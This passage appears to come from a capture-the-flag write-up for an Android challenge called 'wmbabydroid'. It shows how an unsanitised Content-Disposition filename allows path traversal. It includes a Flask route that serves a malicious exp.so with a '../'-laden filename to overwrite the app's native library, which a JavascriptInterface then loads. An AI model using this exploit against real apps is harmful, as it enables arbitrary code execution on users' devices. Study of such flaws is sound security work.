 The path to save the download file, is directly  spliced from `getExternalCacheDir()`and  `fileName` . Function parseContentDisposition will return the filename shown in Http header `"Content-Disposition"`

```Java
private static final Pattern CONTENT_DISPOSITION_PATTERN =
        Pattern.compile("attachment;\\s*filename\\s*=\\s*(\"?)([^\"]*)\\1\\s*$",
                Pattern.CASE_INSENSITIVE);

static String parseContentDisposition(String contentDisposition) {
    try {
        Matcher m = CONTENT_DISPOSITION_PATTERN.matcher(contentDisposition);
        if (m.find()) {
            return m.group(2);
        }
    } catch (IllegalStateException ex) {
        // This function is defined as returning null when it can't parse the header
    }
    return null;
}
```

So in this case, we can manipulate the value of `Content-Disposition` to contain a lot of `../`. Then, the final path should be like:

```Plain
/sdcard/Android/data/com.wmctf.wmbabydroid/cache/../../../../../../../../../../../../data/data/com.wmctf.wmbabydroid/files/lmao.so
```

We can achieve this goal through python-flask.

```Python
@app.route("/download", methods=['GET'])
def download():
    response = make_response(send_from_directory(os.getcwd(), 'exp.so', as_attachment=True))
    response.headers["Content-Disposition"] = "attachment; filename={}".format("../"*15+"data/data/com.wmctf.wmbabydroid/files/lmao.so")
    return response
```

#### Overwrite and trigger the native-lib

There is a **JavascriptInterface** called lmao. If file `/data/data/com.wmctf.wmbabydroid/files/lmao.so` exists, it will load that native executable file.

```Python
webView.addJavascriptInterface(this, "lmao");

@SuppressLint("JavascriptInterface")
@JavascriptInterface
public void lmao(){
    try {
        File so = new File(getFilesDir() + "/lmao.so");
        if(so.exists()){
            System.load(so.getPath());
        }
    } catch (Exception e){
        e.printStackTrace();
    }
}
```
